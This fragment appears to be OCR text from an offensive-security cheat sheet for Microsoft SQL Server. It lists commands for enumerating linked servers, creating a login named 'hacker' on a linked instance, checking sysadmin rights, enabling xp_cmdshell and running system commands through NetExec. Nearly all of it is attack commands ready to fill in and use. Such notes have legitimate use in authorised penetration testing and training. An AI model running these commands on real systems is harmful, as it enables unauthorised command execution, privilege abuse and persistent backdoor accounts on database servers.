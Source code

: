     *   Linked Instances
        *   `SELECT * FROM master..sysservers;` → Check if `IsRemote = 0`
        *   `EXECUTE(''CREATE LOGIN hacker WITH PASSWORD = password'') AT [[INSTANCE]]`
        *   `EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [[INSTANCE]]`
        *   `EXECUTE('[MSSQL_QUERY]') AT [[INSTANCE]]`
    *   RCE (Admin)
        *   `enable_xp_cmdshell`
        *   `xp_cmdshell [CMD]` 
        *   NXC → `nxc mssql [IP] [AUTH_STRING] -x/X [CMD/PS_COMMAND]`